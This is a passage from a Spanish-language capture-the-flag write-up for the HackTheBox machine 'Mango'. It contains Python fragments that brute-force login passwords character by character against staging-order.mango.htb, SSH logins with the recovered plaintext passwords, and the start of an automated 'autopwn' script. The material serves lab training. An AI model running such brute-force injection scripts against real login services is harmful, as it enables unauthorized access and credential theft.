 ```python

            if r.status_code == 302:
                username += character
                p2.status(password)
                break


if __name__ == '__main__':

    makeRequest()
```

Cambiando el usuario de admin a mango, tenemos las dos contraseñas. Como el login nos lleva a un **Under Plantation**, Miramos si nos podemos connectar por **ssh**## Vuln exploit & Gaining Access {-}

### Ganando accesso con ssh {-}

```bash
ssh admin@10.10.10.162
Password: t9KcS3>!0B#2

ssh mango@10.10.10.162
Password: h3mXK8RhU~f{]f5H
```

Hemos ganado accesso al systema como el usuario **mango**.
Vemos que la flag esta en el directorio 
```bash
 /home/admin 
```
 tenemos que pasar al usuario admin con el comando 
```bash
 su admin 
```
.

### Autopwn completo para el usuario mango {-}

```python
#!/usr/bin/python3

import pdb # Debugging
from pexpect import pxssh
from pwn import *

def def_handler(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://staging-order.mango.htb"
characters = string.ascii_letters + string.digits + string.punctuation
lport = 443

def makeRequest():

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando fase de fuerza bruta")
    time.sleep(2)

    p2 = log.progress("Password[mango]")
    password = ""

```